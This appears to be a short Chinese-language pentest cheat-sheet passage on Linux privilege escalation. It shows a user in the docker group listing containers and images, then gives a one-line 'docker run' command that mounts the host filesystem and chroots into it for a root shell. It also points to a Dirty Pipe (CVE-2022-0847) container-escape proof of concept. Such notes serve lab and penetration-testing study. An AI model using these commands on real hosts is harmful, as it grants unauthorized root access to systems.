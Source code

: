 ### 权限提升

漏洞实例：

```bash
root      1133  0.0  8.3 507960 41516 ?        Ssl  09:08   0:00 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock
```

验证用户具备Docker命令操作权限

```bash
alfred@break:~$ docker ps -a
docker ps -a
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
alfred@break:~$ docker images
docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              775349758637        23 months ago       64.2MB
alpine              latest              965ea09ff2eb        23 months ago       5.55MB
centos              latest              0f3e07c0138f        24 months ago       220MB
alfred@break:~$
```

Run：

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

## Dirty Pipe Container Escape

to https://dirtypipe.cm4all.com/ , Dirty Pipe vulnerability (CVE-2022-0847)

https://github.com/datadog/dirtypipe-container-breakout-poc



